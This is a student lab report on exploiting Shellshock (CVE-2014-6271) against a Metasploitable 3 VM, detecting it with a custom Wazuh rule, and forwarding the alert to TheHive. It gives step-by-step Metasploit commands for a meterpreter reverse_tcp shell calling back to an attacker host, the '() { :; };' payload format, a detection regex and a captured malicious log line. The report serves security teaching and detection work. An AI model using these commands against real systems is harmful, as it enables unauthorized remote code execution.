







# Eksploatacija ranjivosti, detekcija i incident response izvještaj

_Ime studenta_: Danilo Cvijetić, Teodor Vidaković, Balša Bulatović
_Datum_: 12.12.2025

## Pregled Ranjivosti

### Informacije o ranjivosti

*   **ID ranjivosti (CVE):** CVE-2014-6271 (Shellshock)
*   **Pogođen servis:** GNU Bash korišćen kroz Apache web server (CGI skripte).
*   **CVSS ocena:** 9.8 (Critical)
*   **Opis ranjivosti:**
    Shellshock je kritična ranjivost u Unix Bash shell-u koja omogućava napadačima da izvrše proizvoljan kod. Ranjivost postoji u načinu na koji Bash obrađuje definicije funkcija proslijeđene kroz "environment" varijable. Kada web server (poput Apache-a) izvršava CGI skriptu, on prosleđuje HTTP zaglavlja (poput `User-Agent`) kao varijable okruženja. Ako napadač ubaci maliciozan kod nakon definicije funkcije `() { :; };`, Bash će ga izvršiti prije pokretanja same skripte.

### Opis eksploita

*   **Izvor eksploita:**
    Metasploit Framework modul: `exploit/multi/http/apache_mod_cgi_bash_env`
*   **Metod eksploatacije:**
    Eksploit šalje specijalno kreiran HTTP zahtev ka ranjivoj CGI skripti (`/cgi-bin/hello_world.sh`). Maliciozni payload se ubacuje u `User-Agent` HTTP zaglavlje. Format payload-a je `() { :; }; <komanda>`. Kada server prosledi ovaj `User-Agent` Bash-u, on interpretira niz znakova kao funkciju, ali zbog ranjivosti nastavlja da izvršava i kod koji slijedi nakon nje, čime se ostvaruje *Remote Code Execution* (RCE).

---

## Proces Eksploatacije

### Podešavanje eksploita

*   **Ranljiv cilj:**
    *   Mašina: Metasploitable 3 (Ubuntu 14.04 VM, vagrant,vbox).
    *   IP adresa cilja: `172.28.128.3`.
    *   Servis: Apache HTTP Server na portu 80. (verzija 2.4.7)
    *   Ranjiva skripta: `/cgi-bin/hello_world.sh`.
*   **Alati za eksploataciju:**
    *   Metasploit Framework (msfconsole).

### Koraci eksploatacije

Proces eksploatacije izvršen je korišćenjem Metasploit alata kroz sledeće korake:

0. Pronalaženje ranjive cgi skripte pomoću dirbuster/gobuster alata sa medium wordlistom.
1.  Pokretanje Metasploit konzole i odabir odgovarajućeg modula:
    `use exploit/multi/http/apache_mod_cgi_bash_env`
2.  Definisanje IP adrese ciljane mašine (Metasploitable3):
    `set RHOSTS 172.28.128.3`
3.  Definisanje putanje do ranjive CGI skripte:
    `set TARGETURI /cgi-bin/hello_world.sh`
4.  Odabir payload-a. Korišćen je standardni payload jer `reverse_bash` nije bio kompatibilan sa ciljanim okruženjem:
    `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
5.  Podešavanje parametara za povratnu konekciju (IP adresa napadača i port):
    `set LHOST 172.28.128.1`
    `set LPORT 4444`
6.  Pokretanje napada komandom `run`.




### Rezultat eksploatacije

Napad je bio uspješan. Otvorena je sesija, što potvrđuje da je ostvaren neovlašćen pristup sistemu sa privilegijama korisnika `www-data`. Izvršavanjem komande `id` potvrđen je identitet korisnika pod kojim se izvršava web server.



---

## Detekcija Korišćenjem Wazuh SIEM-a

### Wazuh SIEM pravila

*   **Pravila korišćena za detekciju:**

```
  <rule id="31168" level="14" overwrite="yes">
   <if_sid>31108</if_sid> 
     <regex>"\(\)\s*{\s*\w*:;\s*}\s*;|"\(\)\s*{\s*\w*;\s*}\s*;</regex> 
    <description>Shellshock Attack Detected (CVE-2014-6271) danilo</description>
    <mitre>
      <id>T1190</id>
    </mitre>
  </rule>
```

*   **ID pravila:** `31168` (Custom overwrite)
*   **Opis pravila:**
    Pravilo koristi regex koji detektuje Shellshock potpis `() { :;` uzimajući u obzir bilo koju količinu razmaka između karaktera i različite varijacije napada (npr. bez znaka :). Linija `if_sid` osigurava da se pravilo primijenjuje samo na logove vezane za web requestove.


### Konfiguracija SIEM-a

*   **Podešavanje Wazuh agenta:**
    Wazuh agent je instaliran na Metasploitable3 VM-u i konfigurisan u `/var/ossec/etc/ossec.conf` da komunicira sa Wazuh Manager-om (Docker instanca) putem IP adrese `192.168.56.1` (Host-only adapter).
*   **Prikupljanje logova:**
    Agent je konfigurisan da prati Apache pristupne logove (`access logs`). Konkretna putanja u konfiguraciji je:
    `<location>/var/log/apache2/access.log</location>`

### Proces detekcije

Nakon pokretanja eksploita, Apache server je zabilježio maliciozni zahtjev u `access.log`. Wazuh agent je pročitao ovu liniju i poslao je Manager-u. Manager je analizirao log, uporedio ga sa prilagođenim pravilom 31168 i generisao upozorenje visokog prioriteta (Level 14).
_log_: 
```
172.28.128.1 - - [12/Dec/2025:13:14:48 +0000] "GET /cgi-bin/hello_world.sh HTTP/1.1" 200 261 "-" "() { :;};echo -e \"\\r\\nPpgbkowj1jX0PNTJBfnJj3Ugsavrkf$(echo -en
```





---

## Incident Response sa The Hive-om

### Podešavanje integracije

*   **Opis integracije:**
    Wazuh Manager je integrisan sa The Hive platformom (oba servise rade u Docker kontejnerima) korišćenjem prilagođene Python skripte (`custom-w2thive.py`) i Bash skripte (`custom-w2thive`) u `/var/ossec/integrations`. Upustva su preuzeta sa: [link](https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response)
    U `ossec.conf` fajlu na Wazuh Manager-u dodata je `<integration>` sekcija koja definiše `hook_url` ka The Hive API-ju (korišćena je docker bridge adresa) i odgovarajući API ključ The Hive analyst service korisnika koji ima permisije da kreira alertove.
*   **Integracija pravila:**
    Skripta je konfigurisana da proslijeđuje sve alerte čiji je nivo (level) veći ili jednak 5 (ili definisani prag) direktno u The Hive kao nove bezbjednosne alerte.

### Kreiranje slučaja u The Hive-u

Kada je Wazuh detektovao Shellshock napad (Level 14), integraciona skripta je automatski poslala podatke u The Hive. U "Alerts" sekciji The Hive dashboard-a pojavio se novi zapis sa detaljima napada, uključujući IP adresu napadača, opis pravila i sirove logove. Ovo omogućava SOC analitičaru da odmah započne istragu i pretvori alert u "Case".





